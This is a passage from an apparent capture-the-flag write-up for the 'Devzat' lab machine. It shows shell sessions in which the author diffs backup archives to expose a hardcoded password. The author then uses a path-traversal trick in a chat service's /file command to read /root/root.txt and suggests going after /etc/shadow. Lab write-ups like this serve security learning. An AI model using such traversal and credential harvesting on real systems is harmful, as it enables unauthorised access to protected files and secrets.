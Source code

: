 ```bash
catherine
catherine@devzat:/home/patrick$ 
catherine@devzat:/home/patrick$ cd /home/catherine/
catherine@devzat:/home/catherine$ls
user.txt
catherine@devzat:/home/catherine$
```
Perfect, now you can grab the userflag.
# Root-ish
So here is the funny part, we know the password we need is in the backup files, so lets just get them and check it out. Maybe that is enough to get root.
```
catherine@devzat:/dev/shm$ cp /var/backup/devzat-dev* .
catherine@devzat:/dev/shm$ cp /var/backup/devzat-main* .
catherine@devzat:/dev/shm$ unzip devzat-dev*
catherine@devzat:/dev/shm$ unzip devzat-main*
catherine@devzat:/dev/shm$ diff dev main
diff dev/allusers.json main/allusers.json 
1c1,3                        
< {}                        
---                         
> {                       
>    "eff8e7ca506627fe15dda5e0e512fcaad70b6d520f37cc76597fdb4f2d83a1a3": "\u001b[38;5;214mtest\u001b[39m" 
> } 
diff dev/commands.go main/commands.go 
4d3
<       "bufio"
<       // Check my secure password
<       if pass != "CeilingCatStillAThingIn2021?" {
<               u.system("You did provide the wrong password")
<               return
<       }
```
Awesome, now lets test it out
```
catherine@devzat:~$ ssh patrick@127.0.0.1 -p 8443
admin: Hey patrick, you there?
patrick: Sure, shoot boss!
admin: So I setup the influxdb 1.7.5 for you as we discussed earlier in business meeting.
patrick: Cool 👍
admin: Be sure to check it out and see if it works for you, will ya?
patrick: Yes, sure. Am on it!
devbot: admin has left the chat
Welcome to the chat. There are no more users
devbot: patrick has joined the chat
patrick: file /root/root.txt CeilingCatStillAThingIn2021?
patrick: /file /root/root.txt CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/root/root.txt does not exist!
patrick: /file /root.txt CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/root.txt does not exist!
patrick: /file /../root.txt CeilingCatStillAThingIn2021?
[SYSTEM] 5db2b41afad7aaa51848fcc4deea352a
```
Well we got rootflag, you could probably do more like getting /etc/shadow or something. But flag is flag!
